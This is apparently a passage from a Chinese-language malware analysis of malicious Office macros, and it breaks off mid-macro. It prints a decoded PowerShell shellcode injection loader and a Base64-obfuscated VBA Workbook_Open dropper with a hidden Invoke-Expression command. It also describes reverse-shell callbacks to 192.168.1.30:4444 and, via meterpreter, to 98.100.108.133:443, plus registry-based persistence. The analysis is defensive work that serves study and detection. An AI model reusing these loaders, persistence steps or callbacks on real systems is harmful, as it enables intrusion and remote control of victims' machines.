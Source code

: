 将宏中的字符串，用Base64解码后，得到内容如下：

```
$1 = '$c = ''[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = 0xbf,0x34,0xff,0xf9,0x18,0xd9,0xeb,0xd9,0x74,[……] ,0xda,0x73,0x5d;$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$x=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$x,0,0,0);for (;;){Start-sleep 60};';$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($1));$2 = "-enc ";if([IntPtr]::Size -eq 8){$3 = $env:SystemRoot + "\syswow64\WindowsPowerShell\v1.0\powershell";iex "& $3 $2 $e"}else{;iex "& powershell $2 $e";}

```

将其中的shellcode提取出来进行分析得知，这段shellcode的主要功能是反向连接内网IP 192.168.1.30的4444端口。

![p11](http://drops.javaweb.org/uploads/images/056b6e9c88b9f417d823a6f8f7d49abe9591856e.jpg)

另一个与上述样本有着类似功能的样本的MD5为：1e39753fd56f17010ac62b1d84b5e650

从文件中提取出来的宏为：

![p12](http://drops.javaweb.org/uploads/images/af8d9e80fd4e6bb5fc6ca872144952b70787e9af.jpg)

而这四个函数对应的功能分别为

*   Execute：

用Powershell下载invoke-shellcode.ps后，通过invoke-shellcode函数调用指定Payload windows/meterpreter/reverse_https 建立反弹shell，反弹的地址为98.100.108.133，端口为443

其中部分代码为：

![p13](http://drops.javaweb.org/uploads/images/bd17f24769a364100b61c4b3268682cf321feb15.jpg)

*   Persist：

将Powershell建立反弹Shell的功能用VBS实现后，保存在C:\Users\Public\10-D.vbs文件中

*   Reg

新建HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load注册表，值指定为C:\Users\Public\10-D.vbs

*   Start

调用C:\Users\Public\10-D.vbs

而有时，为了抵抗杀毒软件的追杀，样本通常会进行Base64编码。

MD5：c49ee3fb4897dd1cdab1d0ae4fe55988

下面为提取出来的宏内容，可见代码使用了Base64编码：

```
"vba_code": "Sub Workbook_Open() 'VBA arch detect suggested by "T" Dim Command As String Dim str As String Dim exec As String Arch = Environ("PROCESSOR_ARCHITECTURE") windir = Environ("windir") If Arch = "AMD64" Then Command = windir + "\syswow64\windowspowershell\v1.0\powershell.exe" Else Command = "powershell.exe" End If str = "nVRtb9tGDP7uX0EIN0BCLEV+aZZYCNDUadZsdZrFbtLNMIazRFvXnO" str = str + "6U08mR4/q/j3I0x/06f9CZFI/PQ/Kh2BOcw3unNb2U8jrLtb"[……]str = str + "TjdLP9Fw==" exec = Command + " -NoP -NonI -W Hidden -Exec Bypass -Comm" exec = exec + "and ""Invoke-Expression $(New-Object IO.StreamRea" exec = exec + "

```
